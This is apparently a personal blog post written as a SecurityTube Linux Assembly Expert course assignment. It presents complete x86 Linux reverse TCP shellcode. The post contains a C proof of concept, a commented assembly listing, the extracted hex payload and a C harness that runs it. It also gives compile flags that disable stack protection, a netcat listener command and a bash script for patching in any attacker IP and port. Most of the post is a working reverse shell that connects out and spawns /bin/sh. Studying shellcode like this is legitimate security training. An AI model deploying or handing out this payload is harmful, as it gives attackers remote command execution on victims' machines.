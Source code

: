 ```yaml
---
comments: true
date: 2014-04-04 07:03:42+00:00
layout: post
title: 'SLAE Assignment 2: Reverse Bind TCP Shellcode'
categories:
- programming
- SLAE
---
```


This is the second of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:



	
  1. Create a shellcode that reverse connect to a configured ip and port;

	
  2. The shellcode must execute /bin/sh on successful connection;

	
  3. IP and port number should be easily configurables


The difference between this assignment and the [previous one](http://www.paolostivanin.com/blog/2014/04/03/slae-assignment-1-bind-tcp-shellcode/) is that in the first assignment the shellcode "is a server" so we connect to it using netcat and then a shell is executed and "bound" to the **client terminal** while in this one the shellcode "is a client" so we need netcat running in listen mode on the configured ip and port and after a successful connection a shell **is bound to the server terminal**.

<!-- more -->

First of all i made a proof of concept of a program that connect to a configured ip (192.168.1.167) and port (7500) and execute /bin/sh on successful connection. I used dup2 to makes 0, 1 and 2 (stdin, stdout and stderr) be the copy of fd.

    
    #define STDIN 0
    #define STDOUT 1
    #define STDERR 2
    
    int main(void){
    	int fd;
    	struct sockaddr_in server_addr;
    	char *argv[] = { "/bin/sh", NULL };
    
    	server_addr.sin_family = AF_INET;
    	server_addr.sin_port = htons(7500);
    	server_addr.sin_addr.s_addr = inet_addr("192.168.1.167");
    
    	fd = socket(AF_INET, SOCK_STREAM, 0);
    
    	connect(fd, (struct sockaddr *)&server_addr, 16);
    
    	//dup2 (0,1,2) (client will be connected to stdin, stdout and stderr)
    	dup2(fd, STDIN);
    	dup2(fd, STDOUT);
    	dup2(fd, STDERR);
    
    	execve(argv[0], &argv[0], NULL);
    
    	return 0;
    }


As you can see in the above PoC, in our shellcode we'll need these syscall:



	
  1. two sys_socketcall(int call, unsigned long *args) where int call will be SYS_SOCKET and SYS_CONNECT according to /usr/include/linux/net.h;

	
  2. three sys_dup2(int oldfd, int newfd);

	
  3. one sys_execve(char *filename, char *argv[], char *envp[]) where both *argv[] and *envp[]** must be null terminated**


Below there is the complete shellcode:

    
    ;Description:	Assignment #2 (Reverse_Shell_Bind_TCP, 79 bytes)
    ;Shellcode:		\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x43\x68\xc0\xa8\x01\xa7\x66\x68\x1d\x4c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf3\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80
    ;Author: 		Paolo Stivanin <https://github.com/polslinux>
    ;SLAE ID:		526
    
    global _start
    section .text
    _start:
    	;socket(): sys_socketcall(int call, unsigned long *args)
    	;eax -> sys_socketcall
    	;ebx -> SYS_{SOCKET(1),BIND(2),CONNECT(3),LISTEN(4),ACCEPT(5),...}
    	;ecx -> args(AF_INET{/usr/include/bits/socket.h -> 2}, SOCK_STREAM{/usr/include/bits/socket_type.h -> 1}, 0)
    	xor edx,edx
    	xor ebx,ebx
    	push BYTE 0x66 	;sys_socketcall
    	pop eax
    	inc ebx			;SYS_SOCKET
    	push edx		;0
    	push BYTE 1 	;SOCK_STREAM
    	push BYTE 2		;AF_INET
    	mov ecx,esp
    	int 0x80
    	xchg esi,eax
    
    	;connect(): sys_socketcall(int call, unsigned long *args)
    	;eax -> sys_socketcall
    	;ebx -> SYS_CONNECT
    	;ecx -> args(sockfd{esi}, {sa_family{2},sin_port{7500},sin_address{192.168.1.167}}, 16)
    	mov BYTE al,0x66
    	inc ebx
    	inc ebx					;SYS_CONNECT
    	push DWORD 0xa701a8c0	;192.168.1.167
    	push WORD 0x4c1d		;port 7500
    	push WORD 2				;AF_INET
    	mov ecx,esp
    	push BYTE 16
    	push ecx
    	push esi
    	mov ecx,esp
    	int 0x80
    
    	;dup2 sys_dup2(oldfd, newfd{0[stdin],1[stdout],2[stderr]})
    	mov ebx,esi
    	push BYTE 2
    	pop ecx
    lp:	mov BYTE al,0x3f
    	int 0x80
    	dec ecx
    	jns lp			;SF=0 positive, SF=1 negative. JNS (jump-if-not-sign) will loop while SF=0. When SF is set we reach a negative value so the loop stops.		
    
    	;execve /bin/sh
    	mov BYTE al,11
    	push edx
    	push 0x68732f2f
    	push 0x6e69622f
    	mov ebx,esp
    	push edx
    	mov edx,esp
    	push ebx
    	mov ecx,esp
    	int 0x80


I also used [libemu](http://libemu.carnivore.it/) and dot to produce a graph of the execution flow of the shellcode:

[![graph_assign2]({{ site.baseurl }}/images/2014/04/graph_assign2-601x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign2.png)

To assemble, link and get the hex shellcode I used the[ same script of Assignment 1](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/alg-shell.sh).

Before executing the program the C source file must be updated with the newest shellcode:

    
    /* Template for running shellcode
     * Author: Paolo Stivanin <https://github.com/polslinux>
     * SLAE Student ID: 526
     */
    
    #include <stdio.h>
    #include <string.h>
    
    unsigned char shellcode[] = \
    "\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x43\x68\xc0\xa8\x01\xa7\x66\x68\x1d\x4c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf3\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80";
    
    int main(void){
    	printf("%zu\n", strlen(shellcode));
    	int (*ret)() = (int(*)())shellcode;
    	ret();
    	return 0;
    }


Now it's time to compile the file with gcc -fno-stack-protector -z execstack main.c -o Reverse_Shell_Bind_TCP (or with [this](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/compile_gcc.sh) script) and then:



	
  1. open a terminal and type nc -v -l -p 7500

	
  2. execute Reverse_Shell_Bind_TCP


**[![ass2]({{ site.baseurl }}/images/2014/04/ass2-1024x575.png)]({{ site.baseurl }}/images/2014/04/ass2.png)**

The last point of this assignment ask to provide an easily way to configure the ip address and the port number. To accomplish this request I developed this small script:

    
    #!/bin/bash
    
    #Description:	Assignment #2 (Reverse_Shell_Bind_TCP, configure ip and port)
    #Author: 		Paolo Stivanin <https://github.com/polslinux>
    #SLAE ID:		526
    
    if [ -z "$1" ]; then
    	echo "Usage: $0 <elf-file>"
    	exit -1
    fi
    
    oldip=$(od -t x1 $1|grep -E -o "43 68.{0,12}"|sed 's/\ //g'|sed 's/^.\{4\}//g')
    hexoldip=$(printf '%s' $oldip | sed 's/../&\\x/g' | sed 's/\(\)/&\\x/' | sed 's/..$//')
    
    oldport=$(od -t x1 $1|grep -o -P "66 68.{6}"|sed 's/\(......\)//g'|sed 's/\ //g')
    hexoldport=$(printf '%s' $oldport | sed 's/\(..\)/&\\x/' | sed 's/\(\)/&\\x/')
    
    echo "[?] Write IP in dotted format (eg 192.168.1.167): "
    read dotip
    hexip=$(printf '%02x' $(echo ${dotip//./ }))
    
    echo "[?] Write port number: "
    read port
    hexport=$(printf '%x' $port)
    
    echo "[+] HEX code of choosed IP: $hexip"
    echo "[+] HEX code of choosed port: $hexport"
    
    echo "[+] Updating $1 elf..."
    newport=$(printf '%s' $hexport | sed 's/\(..\)/&\\x/' | sed 's/\(\)/&\\x/')
    sed -i "s/\x66\x68$hexoldport/\x66\x68$newport/g" $1
    newip=$(printf '%s' $hexip | sed 's/../&\\x/g' | sed 's/\(\)/&\\x/' | sed 's/..$//')
    sed -i "s/\x43\x68$hexoldip/\x43\x68$newip/g" $1
    
    echo "[+] All done :)"


All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).





This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)
**Student ID: SLAE-526**
